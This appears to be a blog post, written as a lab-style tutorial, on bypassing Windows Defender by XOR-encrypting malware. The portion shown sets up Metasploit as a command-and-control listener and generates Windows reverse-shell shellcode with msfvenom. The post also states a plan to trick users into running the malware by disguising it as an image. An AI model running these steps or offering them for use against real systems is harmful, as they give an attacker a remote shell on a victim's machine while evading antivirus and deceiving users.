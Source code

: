```yaml
---
title: "Bypass Windows Defender With Xor Encryption"
date: 2024-04-22
---
```


# Prelude

If you're new in malware development, just like me you might've heard that it was possible to bypass windows defender with a simple encryption. 
I could not believe it, so I had to try it and why not put in a blog to describe my experience at the same time!
In this blog I will take you through it step by step. At the end, I will also introduce a clever way of fooling a user into clicking on our malware that will appear as an image.


# Environment Setup

If you want also want to perform this simple attack you will need to have to virtual machines
  - Windows Machine (victim)
  - Kali Linux or any other machine with metasploit on it (Attacker)


# Configuring your C2 (Command & Control)

Now, I know some of you will say what is a C2 or why am I considering metasploit as C2. Well, let me explain in this case metasploit will act as a command and control center because it will be used to issue commands to the compromised system and also, to receive data from them. Now that the air is cleared let's proceed!

- Start Metasploit Framework
  ```
  sudo service postgresql start && msfconsole -q
  ```
- Configure Listener
  ```
  use multi/handler
  set LHOST <HOST>
  set LPORT <PORT>
  run
  ```
- Generate shellcode
  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f c -o <name>.c
  ```




